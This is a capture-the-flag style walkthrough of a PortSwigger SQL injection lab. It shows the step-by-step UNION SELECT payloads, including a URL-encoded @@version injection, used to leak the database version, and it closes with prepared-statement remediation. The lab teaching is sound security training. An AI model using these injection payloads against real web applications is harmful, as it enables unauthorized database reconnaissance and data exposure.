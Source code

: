 # SQL injection attack – **querying database type & version (MySQL / Microsoft SQL Server)**

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab “SQL injection attack: querying the database type and version (MySQL & Microsoft SQL Server),” we showed that an attacker can reveal the exact database version string by appending a crafted `UNION SELECT` clause to the product-filter request.
Because the application blindly concatenates user-supplied text into a `WHERE` clause, we joined the output of `@@version` to the normal product list and forced the database to disclose its own build details.

---

# Description

![Lab banner – PortSwigger Practitioner level](2.png)

---

## Why This Matters to You

* **Precision exploitation:** Version strings map directly to published CVEs attackers can cherry pick exploits that match your exact patch level.
* **Evasion planning:** Knowing whether the back-end is MySQL Community, Percona, MariaDB, or Microsoft SQL Server Edition helps attackers anticipate which auditing, encryption, and logging features are present.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                      | Intended SQL generated by the app                                             | What actually happens & why                                                                                                                                                           |
| - | --------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** – baseline request: `/filter?category=Gifts`                             | `SELECT * FROM someTable WHERE category='Gifts'`                               | Normal product list appears.                                                                                                                                                          |
| 2 | **Counted columns** with `ORDER BY` / `UNION NULL,NULL` – learned there are **2 columns**.          | —                                                                             | Valid `UNION` requires matching column count.                                                                                                                                         |
| 3 | **Found text-compatible columns** by injecting `UNION 'a','b'` – confirmed both return string data. | —                                                                             | Shows where arbitrary text will surface.                                                                                                                                              |
| 4 | **Leaked version string** with<br>`/filter?category=Gifts'/**%20**UNION%20SELECT%20'a',@@version%23` | `SELECT * FROM someTable WHERE category='Gifts' UNION SELECT 'a', @@version#'` | `#` starts a comment in MySQL; everything after is ignored. Page prints the full MySQL/MSSQL banner (e.g., `MySQL 8.0.36-log` or `Microsoft SQL Server 2019 ...`). Lab flags success. |

![Lab banner – PortSwigger Practitioner level](3.png)
> Leaked version string using NULL instead of 'a'

---

## Observable Output

| Test / Payload                | Visible result                     | What it proved                     |
| ----------------------------- | ---------------------------------- | ---------------------------------- |
| Baseline (`category=Gifts`)    | Normal product grid                | Application behaves as intended.   |
| `UNION 'a','b'`               | “a  b” displayed                   | Column count & data types verified |
| `UNION SELECT 'a',@@version#` | Database banner string on the page | **Version disclosure** confirmed   |

---


## Conclusion

With a single `UNION SELECT` payload and the `#` comment character, we extracted the complete MySQL/MSSQL version banner—priceless intelligence for an attacker. Replacing inline SQL with prepared statements and enforcing least-privilege roles will eliminate this exposure.
